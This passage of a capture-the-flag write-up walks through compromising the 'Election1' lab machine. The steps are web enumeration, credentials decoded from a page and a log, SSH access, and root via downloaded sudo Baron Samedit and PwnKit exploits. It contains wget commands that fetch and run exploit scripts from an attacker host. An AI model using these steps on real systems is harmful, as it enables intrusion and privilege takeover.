200      GET        9l       19w      243c http://192.168.194.211/election/languages/id-id/info.tp
200      GET       43l      211w     2134c http://192.168.194.211/election/languages/id-id/loc_main.tp
200      GET       37l       65w      713c http://192.168.194.211/election/languages/id-id/loc_functions.tp
200      GET       35l      201w     2351c http://192.168.194.211/election/languages/id-id/loc_plugin_excel_importer.tp
200      GET       74l      408w     4517c http://192.168.194.211/election/languages/id-id/loc_ajax.tp
200      GET      234l      878w    10543c http://192.168.194.211/election/languages/id-id/loc_admin.tp
200      GET      211l     1111w    88731c http://192.168.194.211/election/admin/css/material-icons/material-icons.woff2
200      GET        0l        0w        0c http://192.168.194.211/election/admin/plugins/excel-importer/SpreadsheetReader_XLS.php
200      GET      288l     1759w   139600c http://192.168.194.211/election/themes/shards/fonts/fontawesome-webfont.woff2
200      GET      392l     2209w   177523c http://192.168.194.211/election/themes/shards/fonts/fontawesome-webfont.woff
200      GET        1l     6137w   307810c http://192.168.194.211/election/themes/shards/js/moment.min.js
200      GET        1l     6137w   307810c http://192.168.194.211/election/admin/js/moment.min.js
200      GET     1452l     5977w   212322c http://192.168.194.211/election/themes/shards/fonts/fontawesome-webfont.ttf
200      GET     1452l     5979w   212524c http://192.168.194.211/election/themes/shards/fonts/fontawesome-webfont.eot
301      GET        9l       28w      332c http://192.168.194.211/election/admin/ajax => http://192.168.194.211/election/admin/ajax/
301      GET        9l       28w      330c http://192.168.194.211/election/admin/js => http://192.168.194.211/election/admin/js/
200      GET        1l        2w       15c http://192.168.194.211/election/admin/ajax/hakpilih.php
200      GET        1l        2w       15c http://192.168.194.211/election/admin/ajax/pemilihan.php
200      GET        1l        2w       15c http://192.168.194.211/election/admin/ajax/op_kandidat_foto.php
200      GET        1l        2w       15c http://192.168.194.211/election/admin/ajax/op_kandidat.php
200      GET        1l        2w       15c http://192.168.194.211/election/admin/ajax/registrasi.php
200      GET        1l        2w       15c http://192.168.194.211/election/admin/ajax/op_panitia.php
200      GET        1l        2w       15c http://192.168.194.211/election/admin/ajax/login.php
301      GET        9l       28w      338c http://192.168.194.211/election/admin/components => http://192.168.194.211/election/admin/components/
500      GET       12l       36w      580c http://192.168.194.211/election/admin/components/modals.php
500      GET        9l       44w      423c http://192.168.194.211/election/admin/components/nav.php
200      GET       14l       44w      689c http://192.168.194.211/election/admin/components/bottom_script.php
200      GET        1l      498w     3985c http://192.168.194.211/election/admin/components/nice-background.php
200      GET       16l       61w      954c http://192.168.194.211/election/admin/components/header.php
500      GET       14l       23w      702c http://192.168.194.211/election/admin/components/footer.php
200      GET        6l       14w      364c http://192.168.194.211/election/admin/components/navbar_header.php
200      GET      721l    62159w   440109c http://192.168.194.211/election/themes/shards/fonts/fontawesome-webfont.svg
200      GET        1l        5w       83c http://192.168.194.211/election/admin/logout.php
200      GET        1l      215w     1935c http://192.168.194.211/election/card.php
301      GET        9l       28w      331c http://192.168.194.211/election/admin/inc => http://192.168.194.211/election/admin/inc/
200      GET        0l        0w        0c http://192.168.194.211/election/admin/inc/check_ajax.php
200      GET        0l        0w        0c http://192.168.194.211/election/admin/inc/conn.php
200      GET        0l        0w        0c http://192.168.194.211/election/admin/inc/functions.php
301      GET        9l       28w      332c http://192.168.194.211/election/admin/logs => http://192.168.194.211/election/admin/logs/
200      GET        5l       46w      325c http://192.168.194.211/election/admin/logs/system.log
200      GET        1l        5w       22c http://192.168.194.211/election/admin/logs.php
200      GET        0l        0w        0c http://192.168.194.211/election/admin/plugins/excel-importer/SpreadsheetReader_XLSX.php
200      GET        1l        5w       22c http://192.168.194.211/election/admin/dashboard.php
200      GET        1l        5w       22c http://192.168.194.211/election/admin/guru.php
[####################] - 4m    702248/702248  0s      found:131     errors:0 
[####################] - 4m    350600/350600  1348/s  http://192.168.194.211/election/ 
[####################] - 7s    350600/350600  49014/s http://192.168.194.211/election/themes/shards/js/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 0s    350600/350600  4869444/s http://192.168.194.211/election/js/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 5s    350600/350600  70685/s http://192.168.194.211/election/themes/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 7s    350600/350600  53724/s http://192.168.194.211/election/themes/shards/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 6s    350600/350600  61671/s http://192.168.194.211/election/themes/shards/css/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 5s    350600/350600  64236/s http://192.168.194.211/election/themes/shards/img/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 0s    350600/350600  4613158/s http://192.168.194.211/election/media/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 1s    350600/350600  306469/s http://192.168.194.211/election/media/backgrounds/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 5s    350600/350600  68197/s http://192.168.194.211/election/media/kandidat/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 0s    350600/350600  4613158/s http://192.168.194.211/election/media/cache/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 0s    350600/350600  4938028/s http://192.168.194.211/election/media/panitia/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 0s    350600/350600  5232836/s http://192.168.194.211/election/data/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 4m    350600/350600  1352/s  http://192.168.194.211/election/admin/ 
[####################] - 5s    350600/350600  72950/s http://192.168.194.211/election/admin/js/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 4s    350600/350600  81973/s http://192.168.194.211/election/admin/css/material-icons/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 0s    350600/350600  4802740/s http://192.168.194.211/election/lib/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 1s    350600/350600  410539/s http://192.168.194.211/election/admin/img/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 1s    350600/350600  329202/s http://192.168.194.211/election/admin/css/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 1s    350600/350600  400686/s http://192.168.194.211/election/languages/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 1s    350600/350600  431773/s http://192.168.194.211/election/languages/en-us/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 0s    350600/350600  4737838/s http://192.168.194.211/election/admin/plugins/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 6s    350600/350600  57541/s http://192.168.194.211/election/admin/plugins/excel-importer/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 1s    350600/350600  305401/s http://192.168.194.211/election/admin/plugins/Zebra_Image/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 2s    350600/350600  220088/s http://192.168.194.211/election/admin/ajax/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 1s    350600/350600  284347/s http://192.168.194.211/election/themes/shards/fonts/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 0s    350600/350600  2804800/s http://192.168.194.211/election/languages/id-id/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 0s    350600/350600  3022414/s http://192.168.194.211/election/admin/components/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 0s    350600/350600  3307547/s http://192.168.194.211/election/admin/inc/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 0s    350600/350600  4553247/s http://192.168.194.211/election/admin/logs/ => Directory listing (add --scan-dir-listings to scan)  
```

Here we find an admin page on `http://192.168.194.211/election/admin/`:



This admin page wants an `Admin ID`!?

We also find some strange binary data in the file `http://192.168.194.211/election/card.php`:

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Intermediate/Election1]
└─$ curl http://192.168.194.211/election/card.php 
00110000 00110001 00110001 00110001 00110000 00110001 00110000 00110001 00100000 00110000 00110001 00110001 00110001 00110000 00110000 00110001 00110001 00100000 00110000 00110001 00110001 00110000 00110000 00110001 00110000 00110001 00100000 00110000 00110001 00110001 00110001 00110000 00110000 00110001 00110000 00100000 00110000 00110000 00110001 00110001 00110001 00110000 00110001 00110000 00100000 00110000 00110000 00110001 00110001 00110000 00110000 00110000 00110001 00100000 00110000 00110000 00110001 00110001 00110000 00110000 00110001 00110000 00100000 00110000 00110000 00110001 00110001 00110000 00110000 00110001 00110001 00100000 00110000 00110000 00110001 00110001 00110000 00110001 00110000 00110000 00100000 00110000 00110000 00110000 00110000 00110001 00110000 00110001 00110000 00100000 00110000 00110001 00110001 00110001 00110000 00110000 00110000 00110000 00100000 00110000 00110001 00110001 00110000 00110000 00110000 00110000 00110001 00100000 00110000 00110001 00110001 00110001 00110000 00110000 00110001 00110001 00100000 00110000 00110001 00110001 00110001 00110000 00110000 00110001 00110001 00100000 00110000 00110000 00110001 00110001 00110001 00110000 00110001 00110000 00100000 00110000 00110001 00110000 00110001 00110001 00110000 00110001 00110000 00100000 00110000 00110001 00110001 00110001 00110001 00110000 00110000 00110000 00100000 00110000 00110001 00110001 00110000 00110000 00110000 00110001 00110001 00100000 00110000 00110000 00110001 00110001 00110000 00110000 00110000 00110001 00100000 00110000 00110000 00110001 00110001 00110000 00110000 00110001 00110000 00100000 00110000 00110000 00110001 00110001 00110000 00110000 00110001 00110001 00100000 00110000 00110000 00110001 00110000 00110000 00110000 00110000 00110001 00100000 00110000 00110001 00110000 00110000 00110000 00110000 00110000 00110000 00100000 00110000 00110000 00110001 00110000 00110000 00110000 00110001 00110001
```

We can decode it with [Binary Refinery](https://github.com/binref/refinery/):

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Intermediate/Election1]
└─$ source ~/Python_venvs/Binary_Refinery/bin/activate

┌──(Binary_Refinery)─(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Intermediate/Election1]
└─$ curl -s http://192.168.194.211/election/card.php | pack 2 
01110101 01110011 01100101 01110010 00111010 00110001 00110010 00110011 00110100 00001010 01110000 01100001 01110011 01110011 00111010 01011010 01111000 01100011 00110001 00110010 00110011 00100001 01000000 00100011

┌──(Binary_Refinery)─(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Intermediate/Election1]
└─$ curl -s http://192.168.194.211/election/card.php | pack 2 | pack 2
user:1234
pass:Zxc123!@#
```

Could this be the admin ID and password?

Finally, we find more credentials in the file `http://192.168.194.211/election/admin/logs.php`:

```text
[2020-01-01 00:00:00] Assigned Password for the user love: P@$$w0rd@123
[2020-04-03 00:13:53] Love added candidate 'Love'.
[2020-04-08 19:26:34] Love has been logged in from Unknown IP on Firefox (Linux).
[2026-11-08 21:49:46]  has been logged out from Unknown IP.
[2026-11-08 21:54:25]  has been logged out from Unknown IP.
[2026-11-08 22:05:20] Love has been logged in from Unknown IP on Firefox (Linux).
```

The user `love` might have the password `P@$$w0rd@123`.

### Login at the election site

If we try out the credentials `1234:Zxc123!@#` at `http://192.168.194.211/election/admin/` we are successful and get a dashboard:



The main information we get here is the confirmation that the `love` user is an administrator.

### Connect with SSH as love

Let's check if the credentials `love:P@$$w0rd@123` give us access via SSH.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Intermediate/Election1]
└─$ ssh love@$TARGET_IP    
The authenticity of host '192.168.194.211 (192.168.194.211)' can't be established.
ED25519 key fingerprint is SHA256:z1Xg/pSBrK8rLIMLyeb0L7CS1YL4g7BgCK95moiAYhQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.194.211' (ED25519) to the list of known hosts.
love@192.168.194.211's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 5.4.0-120-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

541 packages can be updated.
426 updates are security updates.

Your Hardware Enablement Stack (HWE) is supported until April 2023.
Last login: Thu Apr  9 23:19:28 2020 from 192.168.1.5
love@election:~$ 
```

Success, we are in!

### Get the user flag

Now we can start looking for the user flag.

```bash
love@election:~$ ls -la
total 104
drwsrwxrwx 18 love love  4096 Jun 16  2022 .
drwxr-xr-x  3 root root  4096 Apr  9  2020 ..
-rw-------  1 love love    92 Jun 16  2022 .bash_history
drwxrwxrwx 15 love love  4096 Apr  8  2020 .cache
drwxrwxrwx 14 love love  4096 May 26  2020 .config
drwxrwxrwx  3 love love  4096 Oct 20  2019 .dbus
drwxrwxrwx  2 love love  4096 Apr  9  2020 Desktop
drwxrwxrwx  2 love love  4096 Apr  8  2020 Documents
drwxrwxrwx  2 love love  4096 Oct 20  2019 Downloads
drwxrwxrwx  3 love love  4096 Oct 20  2019 .gnupg
drwxrwxrwx  2 love love  4096 Oct 20  2019 .gvfs
-rwxrwxrwx  1 love love 10534 Jun 16  2022 .ICEauthority
drwxrwxrwx  3 love love  4096 Oct 20  2019 .local
-rw-r--r--  1 root root    33 Nov  8 20:45 local.txt
drwxrwxrwx  5 love love  4096 Apr  2  2020 .mozilla
drwxrwxrwx  2 love love  4096 Oct 20  2019 Music
drwxrwxrwx  2 love love  4096 Oct 21  2019 Pictures
-rwxrwxrwx  1 love love   807 Oct 20  2019 .profile
drwxrwxrwx  2 love love  4096 Oct 20  2019 Public
-rwxrwxrwx  1 love love    66 Oct 20  2019 .selected_editor
-rw-rw-r--  1 love love    83 May 26  2020 .Serv-U-Tray.conf
drwxrwxrwx  2 love love  4096 Jun 16  2022 .ssh
-rwxrwxrwx  1 love love     0 Oct 20  2019 .sudo_as_admin_successful
drwxrwxrwx  2 love love  4096 Oct 20  2019 Templates
drwxrwxrwx  2 love love  4096 Oct 20  2019 Videos
love@election:~$ cat local.txt
8<REDACTED>0
love@election:~$ 
```

Excellent!

### Enumeration for privesc

Time to enumerate the system for privilege escalation opportunities.

First we start a web server at our Kali machine to share [LinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS).

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Intermediate/Election1]
└─$ sudo systemctl start apache2
```

Then we download LinPEAS with `wget`.

```bash
love@election:~$ wget http://192.168.45.203/linpeas.sh
--2026-11-08 22:41:53--  http://192.168.45.203/linpeas.sh
Connecting to 192.168.45.203:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1155419 (1.1M) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                                     100%[=================================================================================================>]   1.10M  4.53MB/s    in 0.2s    

2026-11-08 22:41:53 (4.53 MB/s) - ‘linpeas.sh’ saved [1155419/1155419]

love@election:~$ 
```

And start it.

```bash
love@election:~$ chmod +x linpeas.sh 
love@election:~$ ./linpeas.sh 


                            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
                    ▄▄▄▄▄▄▄             ▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄
         ▄▄▄▄     ▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄
         ▄    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄          ▄▄▄▄▄▄               ▄▄▄▄▄▄ ▄
         ▄▄▄▄▄▄              ▄▄▄▄▄▄▄▄                 ▄▄▄▄ 
         ▄▄                  ▄▄▄ ▄▄▄▄▄                  ▄▄▄
         ▄▄                ▄▄▄▄▄▄▄▄▄▄▄▄                  ▄▄
         ▄            ▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄   ▄▄
         ▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                ▄▄▄▄
         ▄▄▄▄▄  ▄▄▄▄▄                       ▄▄▄▄▄▄     ▄▄▄▄
         ▄▄▄▄   ▄▄▄▄▄                       ▄▄▄▄▄      ▄ ▄▄
         ▄▄▄▄▄  ▄▄▄▄▄        ▄▄▄▄▄▄▄        ▄▄▄▄▄     ▄▄▄▄▄
         ▄▄▄▄▄▄  ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄   ▄▄▄▄▄ 
          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄        ▄          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ 
         ▄▄▄▄▄▄▄▄▄▄▄▄▄                       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄                         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
          ▀▀▄▄▄   ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄▀▀▀▀▀▀
               ▀▀▀▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▀▀
                     ▀▀▀▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▀▀▀

    /---------------------------------------------------------------------------------\
    |                             Do you like PEASS?                                  | 
    |---------------------------------------------------------------------------------| 
    |         Linux PE & Hardening    :     https://hacktricks-training.com/courses/lhe/ | 
    |         Learn Cloud Hacking       :     https://training.hacktricks.xyz         | 
    |         Follow on Twitter         :     @hacktricks_live                        | 
    |         Respect on HTB            :     SirBroccoli                             | 
    |---------------------------------------------------------------------------------| 
    |                                 Thank you!                                      | 
    \---------------------------------------------------------------------------------/ 
          LinPEAS-ng by carlospolop 
 
ADVISORY: This script should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own computers and/or with the computer owner's permission. 
 
Linux Privesc Checklist: https://book.hacktricks.wiki/en/linux-hardening/linux-privilege-escalation-checklist.html
Best Linux PE & Hardening course: https://hacktricks-training.com/courses/lhe/ 
 LEGEND: 
  RED/YELLOW: 95% a PE vector
  RED: You should take a look into it
  LightCyan: Users with console
  Blue: Users without console & mounted devs
  Green: Common things (users, groups, SUID/SGID, mounts, .sh scripts, cronjobs) 
  LightMagenta: Your username

 Starting LinPEAS. Caching Writable Folders...
                               ╔═══════════════════╗
═══════════════════════════════╣ Basic information ╠═══════════════════════════════ 
                               ╚═══════════════════╝ 
OS: Linux version 5.4.0-120-generic (buildd@lcy02-amd64-037) (gcc version 7.5.0 (Ubuntu 7.5.0-3ubuntu1~18.04)) #136~18.04.1-Ubuntu SMP Fri Jun 10 18:00:44 UTC 2022
User & Groups: uid=1000(love) gid=1000(love) groups=1000(love),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare)
Hostname: election

[+] /bin/ping is available for network discovery (LinPEAS can discover hosts, learn more with -h)
[+] /bin/bash is available for network discovery, port scanning and port forwarding (LinPEAS can discover hosts, scan ports, and forward ports. Learn more with -h) 
[+] /bin/nc is available for network discovery & port scanning (LinPEAS can discover hosts and scan ports, learn more with -h) 
 

Caching directories . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . DONE
 
                              ╔════════════════════╗
══════════════════════════════╣ System Information ╠══════════════════════════════ 
                              ╚════════════════════╝ 
╔══════════╣ Operative system (T1082)
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#kernel-exploits 
Linux version 5.4.0-120-generic (buildd@lcy02-amd64-037) (gcc version 7.5.0 (Ubuntu 7.5.0-3ubuntu1~18.04)) #136~18.04.1-Ubuntu SMP Fri Jun 10 18:00:44 UTC 2022 
Distributor ID: Ubuntu
Description:    Ubuntu 18.04.4 LTS
Release:        18.04
Codename:       bionic

╔══════════╣ Sudo version (T1548.003,T1068)
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-version 
Sudo version 1.8.21p2 
<--- snip --->
```

The machine is running an old and vulnerable version of `sudo`.

### Exploit Sudo Baron Samedit

The sudo version is vulnerable to [CVE-2021-3156](https://nvd.nist.gov/vuln/detail/cve-2021-3156) (Sudo Baron Samedit) and we can use [this exploit](https://github.com/worawit/CVE-2021-3156) to get a root shell.

```bash
love@election:~$ wget http://192.168.45.203/exploit_nss.py
--2026-11-08 23:11:33--  http://192.168.45.203/exploit_nss.py
Connecting to 192.168.45.203:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8179 (8.0K) [text/x-python]
Saving to: ‘exploit_nss.py’

exploit_nss.py                                 100%[=================================================================================================>]   7.99K  --.-KB/s    in 0s      

2026-11-08 23:11:33 (571 MB/s) - ‘exploit_nss.py’ saved [8179/8179]

love@election:~$ chmod +x exploit_nss.py
love@election:~$ ./exploit_nss.py 
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare),1000(love)
# 
```

### Exploit Pwnkit

Alternatively, we can exploit [CVE-2021-4034 (PWNKIT)](https://github.com/joeammond/CVE-2021-4034):

From LinPEAS scan:

```text
╔══════════╣ Checking Pkexec and Polkit (T1548.003,T1548.004,T1068)
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/interesting-groups-linux-pe/index.html#pe---method-2                                                              
                                                                                                                                                                                         
══╣ Polkit Binary (T1548.003,T1068)
Pkexec binary found at: /usr/bin/pkexec                                                                                                                                                  
Pkexec binary has SUID bit set!
-rwsr-xr-x 1 root root 22520 Mar 27  2019 /usr/bin/pkexec
pkexec version 0.105
Potentially vulnerable to CVE-2021-4034 (PwnKit) - check distro patches
```

Verification and exploitation:

```bash
love@election:~$ apt list policykit-1
Listing... Done
policykit-1/bionic-updates,bionic-security 0.105-20ubuntu0.18.04.6 amd64 [upgradable from: 0.105-20ubuntu0.18.04.5]
N: There are 2 additional versions. Please use the '-a' switch to see them.
love@election:~$ wget http://192.168.45.203/CVE-2021-4034.py
--2026-11-08 23:38:47--  http://192.168.45.203/CVE-2021-4034.py
Connecting to 192.168.45.203:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3262 (3.2K) [text/x-python]
Saving to: ‘CVE-2021-4034.py’

CVE-2021-4034.py                               100%[=================================================================================================>]   3.19K  --.-KB/s    in 0s      

2026-11-08 23:38:47 (161 MB/s) - ‘CVE-2021-4034.py’ saved [3262/3262]

love@election:~$ chmod +x CVE-2021-4034.py 
love@election:~$ ./CVE-2021-4034.py 
[+] Creating shared library for exploit code.
[+] Calling execve()
# id
uid=0(root) gid=1000(love) groups=1000(love),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare)
# 
```

### Get the root flag

And finally we can get the root flag.

```bash
# cd /root
# ls -la
total 84
drwx------ 15 root root 4096 Nov  8 20:47 .
drwxr-xr-x 25 root root 4096 Jun 16  2022 ..
-rw-------  1 root root  978 Jun 16  2022 .ICEauthority
-rw-------  1 root root    6 Jun 16  2022 .bash_history
drwx------  9 root root 4096 Jun 16  2022 .cache
drwx------ 11 root root 4096 Jun 16  2022 .config
drwx------  3 root root 4096 Jun 16  2022 .gnupg
drwxr-xr-x  3 root root 4096 Oct 20  2019 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   66 Apr  2  2020 .selected_editor
drwx------  2 root root 4096 Jun 16  2022 .ssh
-rw-r-----  1 root root    6 Nov  8 23:12 .vboxclient-display-svga.pid
drwxr-xr-x  2 root root 4096 Jun 16  2022 Desktop
drwxr-xr-x  2 root root 4096 Jun 16  2022 Documents
drwxr-xr-x  2 root root 4096 Jun 16  2022 Downloads
drwxr-xr-x  2 root root 4096 Jun 16  2022 Music
drwxr-xr-x  2 root root 4096 Jun 16  2022 Pictures
drwxr-xr-x  2 root root 4096 Jun 16  2022 Public
drwxr-xr-x  2 root root 4096 Jun 16  2022 Templates
drwxr-xr-x  2 root root 4096 Jun 16  2022 Videos
-rw-r--r--  1 root root   33 Nov  8 20:45 proof.txt
# cat proof.txt
6<REDACTED>4
# 
```

For additional information, please see the references below.

## References

- [Apache HTTP Server - Wikipedia](https://en.wikipedia.org/wiki/Apache_HTTP_Server)
- [Binary Refinery - Documentation](https://binref.github.io/)
- [Binary Refinery - GitHub](https://github.com/binref/refinery/)
- [chmod - Linux manual page](https://man7.org/linux/man-pages/man1/chmod.1.html)
- [Common passwords and users - Cajac's CTF Notes](https://cajac.gitbook.io/ctf-notes/creds/online-attacks/common-passwords-and-users)
- [CVE-2021-3156 (Sudo Baron Samedit) - GitHub](https://github.com/worawit/CVE-2021-3156)
- [CVE-2021-3156 - NIST](https://nvd.nist.gov/vuln/detail/cve-2021-3156)
- [CVE-2021-4034 (PWNKIT) - GitHub](https://github.com/joeammond/CVE-2021-4034)
- [export - Linux manual page](https://www.man7.org/linux/man-pages/man1/export.1p.html)
- [feroxbuster - Documentation](https://epi052.github.io/feroxbuster-docs/docs/)
- [feroxbuster - GitHub](https://github.com/epi052/feroxbuster)
- [feroxbuster - Kali Tools](https://www.kali.org/tools/feroxbuster/)
- [Hashcat - Homepage](https://hashcat.net/hashcat/)
- [Hashcat - Kali Tools](https://www.kali.org/tools/hashcat/)
- [Hashcat - Wiki](https://hashcat.net/wiki/)
- [id - Linux manual page](https://man7.org/linux/man-pages/man1/id.1.html)
- [LinPEAS - GitHub](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [OpenSSH - Wikipedia](https://en.wikipedia.org/wiki/OpenSSH)
- [phpMyAdmin - Wikipedia](https://en.wikipedia.org/wiki/PhpMyAdmin)
- [rockyou.txt wordlist - GitHub](https://github.com/zacheller/rockyou)
- [Secure Shell - Wikipedia](https://en.wikipedia.org/wiki/Secure_Shell)
- [ssh - Linux manual page](https://man7.org/linux/man-pages/man1/ssh.1.html)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
- [systemctl - Linux manual page](https://www.man7.org/linux/man-pages/man1/systemctl.1.html)
- [wget - Linux manual page](https://man7.org/linux/man-pages/man1/wget.1.html)
